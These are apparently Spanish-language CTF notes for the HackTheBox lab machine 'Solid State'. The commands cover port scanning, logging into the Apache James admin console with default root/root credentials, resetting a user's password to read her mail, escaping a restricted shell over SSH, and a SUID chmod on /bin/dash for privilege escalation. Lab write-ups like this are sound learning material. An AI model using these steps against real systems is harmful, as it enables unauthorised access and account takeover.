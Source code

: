 # Solid State

IP: 10.10.10.51

## Ping y TTL

`ping -c 1 10.10.10.51`

`whichSystem.py 10.10.10.51`

## Escaneo de puertos 

`nmap -p- --open -T5 -v -n 10.10.10.51 -oN allPorts`

Vemos el 80 abierto --> investigamos web  
- wappalyzer
- CTRL + U
- 10.10.10.51/webadmin /admin /administrador
- Formulario contacto --> CTRL + U --> buscamos method 

`nmap -sC -sV -p22,25,80,110,119,4555 10.10.10.51 -oN targetedPorts`

`searchsploit james remote`

`searchsploit apache james remote`

Probamos por telnet el puerto 25 SMTP

`telnet 10.10.10.51 25` 
- HELLO solidstate
- HELP
- VRFY root

Nos conectamos al admin 4555

`telnet 10.10.10.51 4555`

Buscamos en google las credenciales por defecto de James y vemos:

root/root

`help`
- listusers
- setpassword
- adduser

`setpassword mindy 1234`

`telnet 10.10.10.51 110`
- USER mindy 
- PASS 1234
- list
- RETR 1
- RETR 2

## Nos conectamos por SSH con las credenciales

`ssh mindy@10.10.10.51`

`whoami` --> restricted bash

`echo $SHELL`

`export`

`echo $PATH`

`exit`

## Usamos bash desde SSH
~~~
ssh mindy@10.10.10.51 whoami
ssh mindy@10.10.10.51 "echo \$SHELL"
ssh mindy@10.10.10.51 bash
sh
whereis python
python -c 'import pty; pty.spawn("/bin/bash")'
export SHELL=bash
~~~

Modificamos tmp.py

os.system('chmod 4755 /bin/dash')



